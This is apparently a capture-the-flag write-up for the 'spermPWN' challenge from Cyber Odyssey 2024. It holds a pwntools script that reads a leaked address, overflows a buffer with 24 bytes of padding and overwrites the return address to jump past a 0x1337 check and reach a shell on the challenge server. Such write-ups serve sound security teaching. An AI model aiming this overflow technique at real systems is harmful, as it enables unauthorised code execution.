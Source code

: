 # Cyber Odyssey 2024 - spermPWN


Description : here you go, some free points.

<!--more-->

```python
from pwn import *

# Setup pwntools context for 64-bit architecture
context(arch='amd64', os='linux')

# Start the process
#p = process('./chall')

#remote nc pwn.akasec.club 2001
p = remote('pwn.akasec.club', 2001)

# Load the ELF binary to extract symbols and addresses
e = ELF('./chall')

# Receive the line containing the address of returnToMePlease
func = p.recvline()

# The output is something like: b'return to me please : 5555555551c9\n'
# We need to extract the address part (ascii string) from the line
func = func[24:len(func)-1]  # Extract '5555555551c9' from the output

# Convert the ASCII address string to an integer
func_addr = int(func, 16)

# Add 45 to the extracted address
new_func_addr = func_addr + 45

# Convert the new address to little-endian format using p64
new_func_addr_packed = p64(new_func_addr)

# Create the payload
padding = b"A" * 24  # Overflow buffer + overwrite return address
payload = padding + new_func_addr_packed

# Attach GDB to the running process and set a breakpoint at main+99


# Send the payload
p.sendline(payload)

# Drop into interactive mode to see the output
p.interactive()

```

## Explanation

at new_func_addr+0, you'll never spawn a shell because we fill a register with 0 then we compare it with 0x1337.

But that's like having your front door locked but your back door opened...So let's just go through the back door new_func_addr+45 (As in after the comparison).

